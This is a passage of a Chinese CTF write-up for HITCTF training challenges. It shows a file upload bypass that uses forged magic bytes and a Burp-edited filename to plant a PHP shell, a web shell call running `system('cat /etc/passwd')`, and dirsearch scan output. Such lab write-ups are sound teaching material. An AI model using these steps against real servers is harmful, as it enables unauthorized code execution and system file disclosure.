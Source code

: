 ```shell
文件头：通常以FF FB或FF F3开头。
文件尾：没有固定的文件尾标识。
AVI (视频文件)
文件头：52 49 46 46 (RIFF) 后跟 41 56 49 20 (AVI)
文件尾：没有固定的文件尾标识。
```

​	我们使用十六进制编辑器把文件头加上去，有一个vscode拓展Hex Editor可以编辑，还有Hexer也可以。

​	添加之后上传，系统输出：`php？扬了😋`，估计是检测php字段，那我们删了重新上传就好，系统输出：`上传成功，保存至tmp/img.png`。

​	`img.png`很显然无法调用，这时候我们可以使用Burp Suite抓包重放。

```http
POST /upload.php HTTP/1.1
Host: train2025.hitctf.cn:25808
Content-Length: 225
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://train2025.hitctf.cn:25808
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvYBkkrDgeQpJpsun
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://train2025.hitctf.cn:25808/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryvYBkkrDgeQpJpsun
Content-Disposition: form-data; name="file"; filename="img.png" # 修改为php
Content-Type: image/png

```

​	服务器返回：`上传成功，保存至tmp/img.php`

​	访问`http://hostname.com/tmp/img.php?qwq=system('cat /etc/passwd');`验证一下。

​	之后直接拿flag就好了。

# Spider

​	先拿dirsearch扫一下。

```shell
[11:21:33] Starting: 
[11:21:38] 403 -  287B  - /.ht_wsr.txt
[11:21:38] 403 -  287B  - /.htaccess.bak1
[11:21:38] 403 -  287B  - /.htaccess.orig
[11:21:38] 403 -  287B  - /.htaccess.sample
[11:21:38] 403 -  287B  - /.htaccess.save
[11:21:38] 403 -  287B  - /.htaccessBAK
[11:21:38] 403 -  287B  - /.htaccess_orig
[11:21:38] 403 -  287B  - /.htaccess_sc
[11:21:38] 403 -  287B  - /.htaccess_extra
[11:21:38] 403 -  287B  - /.htaccessOLD
[11:21:38] 403 -  287B  - /.htaccessOLD2
[11:21:38] 403 -  287B  - /.htm
[11:21:38] 403 -  287B  - /.html
[11:21:38] 403 -  287B  - /.htpasswd_test
[11:21:38] 403 -  287B  - /.htpasswds
[11:21:38] 403 -  287B  - /.httr-oauth
[11:22:15] 200 -   31B  - /robots.txt
[11:22:16] 403 -  287B  - /server-status/
```